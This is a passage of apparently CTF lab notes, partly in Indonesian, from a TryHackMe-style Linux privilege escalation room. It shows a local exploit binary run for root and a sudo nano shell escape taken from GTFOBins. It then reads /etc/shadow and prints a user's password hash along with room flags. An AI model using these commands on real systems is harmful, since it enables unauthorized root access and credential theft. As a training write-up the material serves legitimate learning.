 ## Change exploit permission
>. chmod +x ofs_32

## Run exploit
>. ./ofs_32
   -- SUCCESS :)

## Change directory
>. cd /home

## Check id root
>. id

## Find flag
THM-28392872729920

[=]  Task 6 - PrivEsc via Sudo  [=]

## Connect SSH

## Sudo Program Check
>> sudo -l
   -- Ada 3 program yang bisa dieksekusi oleh karen dengan sudo

## Exploit
   -- Pilih salah satu program (misal nano)
   -- Kunjungi GTFOBins untuk menjalankan exploit
      https://gtfobins.github.io/#wget
   -- Search nano, pilih sudo
   -- Ikuti langkah-langkahnya
      >> sudo nano
      >> CTRL+R
      >> CTRL+X
      >> reset; sh 1>&0 2>&0
         -- SUCCESS :)

## Find Flag
THM-402028394

## Find other user
>> cat /etc/shadow
   -- Frank hash = $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

